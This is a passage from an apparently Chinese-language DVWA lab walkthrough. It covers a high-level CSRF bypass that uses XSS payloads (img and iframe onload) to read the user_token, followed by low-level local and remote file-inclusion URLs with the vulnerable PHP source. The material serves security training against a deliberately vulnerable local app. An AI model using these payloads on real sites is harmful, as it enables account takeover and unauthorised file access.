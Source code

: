 ![image-20220122220656993](https://s2.loli.net/2022/01/22/ZP2QKjzx9t3iVHB.png)

或者对referer根据判断条件进行伪造

**3.high**

```
http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change&user_token=367c7e82e1c3e847203981e6d36ced78#
```

在url后面添加了token

通过XSS弹出token

```
<img src="../csrf"onload=alert(frames[0].document.getElementsByName('user_token')[0].value)>
或者
<iframe src="../csrf"onload=alert(frames[0].document.getElementsByName('user_token')[0].value)>
```

![image-20220122224913629](https://s2.loli.net/2022/01/22/ntNWvyJiuKwmsx6.png)



在URL后面加上通过XSS窃取的token，即可攻击成功。



### 文件包含

**1.low**

![image-20220123153556747](https://s2.loli.net/2022/01/23/jhqoLdEO8ty93Fk.png)

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>
```

![image-20220123154324075](https://s2.loli.net/2022/01/23/4QoKAw3WLFcR19V.png)

可以直接读取phpinfo

本地文件包含：

``` 
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=D:\\wamp\\www\\DVWA\\phpinfo.php
```

远程文件包含：

```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=http://127.0.0.1//DVWA//about.php
```
